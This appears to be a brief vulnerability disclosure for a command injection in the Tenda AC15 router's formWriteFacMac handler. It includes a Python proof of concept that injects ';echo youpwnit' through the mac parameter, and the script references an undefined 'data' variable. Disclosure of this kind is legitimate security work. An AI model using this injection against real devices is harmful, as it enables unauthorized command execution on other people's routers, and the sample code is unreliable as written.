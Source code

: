 A command execution vulnerability exists in Tenda AC15 V15.03.05.19. The vulnerability arises from the application failing to properly filter construct commands, special characters, commands, etc. An attacker exploits the vulnerability to perform a command injection attack via the mac parameter of the formWriteFacMac method.

<img width="820" height="279" alt="image" src="https://github.com/user-attachments/assets/3caa48e9-c721-4c52-9226-ef5beec3ad1f" />

```
from pwn import *
import requests

url = "http://192.168.100.254/goform/WriteFacMac?mac=;echo youpwnit "

cookie = {"Cookie":"password=12345"}
response = requests.get(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)
print(response.text)
```
